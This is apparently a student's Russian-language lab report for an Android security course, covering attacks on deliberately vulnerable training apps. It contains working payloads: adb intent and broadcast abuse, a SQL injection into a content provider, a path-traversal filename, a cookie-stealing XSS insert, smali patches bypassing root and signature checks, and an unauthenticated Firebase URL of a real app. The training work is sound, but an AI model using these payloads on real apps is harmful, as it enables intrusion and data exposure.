Занятие №1
----------------
### Задание №1
После того, как имя и пароль введены, они передаются как строковые данные с ключами `name` и `password` с помощью интента, запускающего вторую активность `Secondctivity`. 
После запуска второй активности, имя и пароль извлекаются, и при нажатии на кнопку **SAVE CREDS** в SharedPreferences второй активности (файл Secondctivity.xml) сохраняются имя, пароль, хэшированный пароль и и пароль, хэшированный вместе с некоторой солью, вычисленной предварительно.

Файл Secondctivity.xml располагается во внутреннем хранилище приложения (Internal Storage) по пути `/data/data/com.codeby.p1/shared_prefs`. (для доступа нужен рут). Содержимое этого файла:


Кроме этого, введенные имя и пароль выводятся в логах с приоритетом DEBUG при переходе с MainActivity в Secondctivity:


После нажатия на кнопку **SAVE CREDS**, данные не только сохраняются в SharedPreferences, но и отправляются в интенте в незащищенном виде как широковещательное сообщение, которое обрабатывается приемником широковещательных сообщений `MyReceiver` и сохраняются в `.applog.txt` во внешнее хранилище по пути: `/storage/emulated/0/Android/data/com.codeby.p1/files`. Его содержимое:


### Задание №2
Для тренировки скачал и пореверсил приложение *Расписание СПбПУ*


Для примера, вот оно в MobSF:


Из интересного, только открытая бд Firebase без аутентификации:
```
https://polykek-1.firebaseio.com/.json
```
В ней судя по всеми отзывы и багрепорты.

Никаких приватных данных приложение не хранит и не запрашивает.

Занятие №2
----------------
### Задание №1
```
am start -n com.codeby.p1/com.codeby.p1.Secondctivity --es name HACKED --es password fake_pass
```


### Задание №2
```
am broadcast -a hacked -n com.codeby.p1/.MyReceiver --es DATA StavrovMI
```


Исходя из кода, чтобы получить такую запись в `.applog,txt`, нужно послать широковещательное сообщение с действием `hacked` и стркоковыми данными `StavrovMI` по ключу `DATA`.

Занятие №3
----------------
### Задание №1
Тестовое имя файла: `task3.txt`
Тестовый URL: `http://qookie.tech:30055/`

Значение действия для службы: `com.codeby.p1.action.download`
Значение первого параметра `com.codeby.p1.extra.PARAM1` - URL
Значение второго параметра `com.codeby.p1.extra.PARAM2` - путь для сохранения контента по URL.

Пример запроса к службе:
```
am startservice -n com.codeby.p1/.MyIntentService -a com.codeby.p1.action.download --es com.codeby.p1.extra.PARAM1 http://qookie.tech:30055/ --es com.codeby.p1.extra.PARAM2 task3.txt
```

Файл должен сохранится по пути `/storage/emulated/0/Android/data/com.codeby.p1/files`.
Скачанный файл:


> При слишком длинных командах, у меня adb почему-то не переносит их, а сдвигает влево за границы терминала, поэтому такая длинная команда для запуска службу может быть полностью не видна
### Задание №2
Попробуем просто вывести всех пользователей и бд:
```
content query --uri content://com.codeby.p1.provider.mycontentprovider/users
```

Для SQLj используем четвертый Uri match, где выбирается строка определенного пользователя.
Пейлоад имени: `name' OR '1=1`
полный запрос к контент провайдеру:
```
content query --uri "content://com.codeby.p1.provider.mycontentprovider/users/names/vasya' OR '1=1"
```

Важно заключить uri в скобки, чтобы использовать кавычки в пробеле. 
Скриншот команды и результата:


### Задание №3
Чтобы сохранить файл в приватную директорию приложения, необходимо к имени файла прописать относительный путь до приватной директории, т.е. имя файла должно стать таким:
`../../../../../../../data/data/com.codeby.p1/task3.1.txt`. Это сработает, т.к. приложение само по себе имеет доступ к внутреннему хранилищу.

Полный запрос к службе:
```
am startservice -n com.codeby.p1/.MyIntentService -a com.codeby.p1.action.download --es com.codeby.p1.extra.PARAM1 http://qookie.tech:30055/ --es com.codeby.p1.extra.PARAM2 ../../../../../../../data/data/com.codeby.p1/task3.1.txt
```

Чтобы служба работала, необходимо чтобы приложение было запущено, т.к. она не Foreground.

Скриншот команды и результата:


Занятие №4
----------------

Добавленное поле для ввода пароля:



Передача введенного пароля в SecondActivity:



Измененный текст в TextView в MainActivity:



Занятие №5
----------------
Стили получились такими:
MainActivity:



SecondActivity:



FragmentWin:


Занятие №6
----------------
### Задание №1
Локализация строк в strings.xml:





Реализация проверки на эмулятор:



Реализация проверки рут окружения:



Реализация проверки целостности приложения:



Занятие №7
----------------
### Задание №1
Изначально все проверки работают:


Для обхода проверок, необходимо пропатчить условия проверок возвращаемых значений функций  `isEmulator()`, `checkRoot()` и `checkCRT()`. 

Весь патчинг в файле `SecondActivity.smali`:
Код вызова и проверки результата `isEmulator()`:



Здесь можно просто заменить инструкцию, чтобы она совершала переход, когда переменная наоборот не равна нулю.

Пропатченный код:



Аналогично были изменены условия и для остальных проверок.
Старый код `checkRoot()`:



пропатченный код:


Старый код `checkCRT()`:



Здесь наоборот, `if-nez` заменить `if-eqz`:



Теперь все проверки на экране второй активности проходятся:


### Задание №2
Для перехода на вторую активность необходимо изменить атрибут кнопки на видимый:
`android:visibility="visible"`
Новый экран с кнопкой:


Для перехода на третью активность, на второй активности необходимо нажимать на элемент view, цвет которого не задан и размер которого небольшой. Я увеличил его размер и добавил атрибут другого цвета:
```
android:background="#f66"
android:layout_width="200.0dip"
android:layout_height="200.0dip"
```
Новая вторая активность:



Кнопка перехода на четвертую активность станет кликабельной только в том случае, когда проверится подпись приложения. Чтобы не реверсить весь алгоритм проверки, можно пропатчить только условие проверки в ThirdActivity.smali:


Инструкцию if-eqz заменить на противоположную if-nez:



В четвертой активности первая кнопка увеличивает значение массива n на единицу, а вторая перенаправит на последнюю активность только в том случае, если первый элемент в n равен 9999. Три подхода: либо увеличиваем шаг на 9999, либо меняем проверку с 1 и один раз жмем на первую кнопку, либо просто меняем условие проверки на "не равно".

Решил использовать третий вариант.

Имя оригинального класса после обфускации:



Это x0.b. Так же это можно понять из .smali кода:


Можно увидеть, что создается новый экземпляр класса x0/ф, а так же в метод setOnCLickListener третьим значением передается единица.

Код сравнения значения первого элемента массива с 9999:



Заменяю if-ne на if-eq:



После этого происходит переход на последнюю активность, где в элементе text указал свои фио:




Занятие №8
----------------
Код алгоритма:
```python
import sys
import hashlib
import base64

def get_salt(name, password):
	upper_name = name.upper()
	password_byte = password.encode()[0]
	shifted_name_byte = name.encode()[0] >> 1
	encoded_bytes = base64.b64encode(bytearray([password_byte, shifted_name_byte])).decode()
	result = encoded_bytes + '\n' + upper_name
	return result

def get_hash(password):
	sha1_digest = hashlib.sha1(password.encode('utf-8')).digest()
	return base64.b64encode(sha1_digest).decode('utf-8')

def main():
	if len(sys.argv) != 3:
		exit(0)
	
	name = sys.argv[1]
	password = sys.argv[2]
	print(name, password)
	print(get_hash(password))
	print(get_hash(password + get_salt(name, password)))

main()
```

Результат:
```
python task8.py IVAN IVANOVICH
IVAN IVANOVICH
iSpO/E/fDrlm5WQXO5HknfmGrqg=
DMhKoXnq6mBhddPg/Tl0QhW062E=
```

Данные из приложения:
```
    <string name="pswhashed">iSpO/E/fDrlm5WQXO5HknfmGrqg=&#10;
    <string name="psw">IVANOVICH</string>
    <string name="name">IVAN</string>
    <string name="pswhashwith">DMhKoXnq6mBhddPg/Tl0QhW062E=&#10;
```

Долго не мог понять, в чем причина различия результатов последнего значения `pswhashwith`, т.к. алгоритм несложный: хэшируется пароль и предварительно сгенерированная "соль", которая является конкатенацией base64 от первого байта пароля + первого байта имени, побайтового сдвинутого вправо на 1 и имени в верхнем регистре. Специально написал хук, который бы отлавливал значения, поступающие на вход методу хэширования:
```js
Java.perform(function () {
    var targetClass = Java.use("com.codeby.p1.Secondctivity");
    targetClass.s.implementation = function (str) {
        console.log("argument: " + str);
        var result = this.s(str);
        console.log("returned: " + result);
        return result;
    };
});
```

В результате увидел такое:
```
argument: IVANOVICHSSQ=
IVAN
```

т.е. при конкатенации base64 и имени, появляется символ `\n`. Видимо такая особенность работы base64 в `android.util.Base64`.

Занятие №9
----------------
### Задание №1
Метод ` Base64.encodeT Base64.encodeToString(bArr, 0)oString(bArr, 0)` по умолчанию вставляет `\n` в конец строки (что я и выяснил в предыдущем задании). Чтобы этого избежать, второй аргумент должен быть константой `NO_WRAP`.

Для просмотра логов использовал: `logcat V1ILogActivty:D *:S`.


### Задание №2
Заметка сохранятся в скрытый файл `.u.txt` во внешнее хранилище по пути `/sdcard/Android/data/com.codeby.p3/files`.



### Задание №3
общая команда: `am start -n com.codeby.p3/.V4AcessControlActivity`
Для вывода сообщения `Ура, ты нашел секрет`:
`--es value1 "show me secret 1"`



Для вывода сообщения `Вот твои деньги:$100 000 000`:
`--es value1 "show me the money"`




Для вывода сообщения `ты нашел еще секреты, молодец!`:
`--es value1 "both" --ez flag true`



### Задание №4
Вызов нативного javascript метода:



данные сохранятся в `/data/data/com.codeby.p3/shared_prefs/fromWebView.xml`:



### Задание №5
В этом webView выводятся последние данные, сохраненные в контент провайдере. Необходимо сделать запрос к контент провайдеру со вставкой данных, в которых будет пэйлоад для отображения куки:
```
content insert --uri content://com.codeby.p3.data/data --bind c_row:s:"<script>document.write(document.cookie);</script>"
```


Занятие №10
----------------
### Задание №1
Т.к. активность `WebViewActivity`:
- экспортируема
- выполнение кjs кода в ней включено
- никак не валидирует url, переданный в качестве парамера

То оно выполнит любой js код в документе, адрес к которому переда в `url` параметре при вызове активности. Однако т.к. у приложения нет разрешения на доступа к интернету `android.permission.INTERNET`, то возможно передать ссылку только на локальный документ. При этом у приложения нет js интерфейса, дополнительно позволяющего взаимодействовать с приложением.

Проэксплутариовать выполнение js кода можно, к примеру, таким пейлоадом:
```
am start -a android.intent.action.VIEW -d "https://notes.net?url=javascript:document.body.innerHTML='<h1>HACKED!</h1>'"
```
Выполнение:


Я пробовал разместить файл с js кодом во внешнем хранилище, куда приложение сохраняет картинки заметок, однако результат такой:



### Задание №2
метод `t()` -> `authenticateUser()`.

Где используется `AppState`:
- m4.j.d.authenticateUser() -> при авторизации
- m4.j.e.authenticateUser() -> при начале регистрации
- m4.x0.b.authenticateUser() -> при завершении регистрации
- m4.z.a.authenticateUser()
- m4.z.b.authenticateUser() -> при логауте

Решил это отслеживать так: смотрел, где изменяется `AppState.curPassword` или `AppState.curEmail`. Он, кроме получения данных из диплинка, меняется в вышеописанных методах. Их вызов отслеживал с помощью хуков в objection:
```
android hooking watch class m4.j$d
android hooking watch class m4.j$
android hooking watch class m4.x0$b
android hooking watch class m4.z$b
android hooking watch class m4.z$a
```

Далее решил отслеживать любые вызовы класса `m4.j`
Класс `m4.j` судя по всему ответственен за обработку всей логики на экране авторизации: отображение лого, обработка введенных значений пароля и логина и т.д.

Судя по всему, это код проверки введенных данных при авторизации:

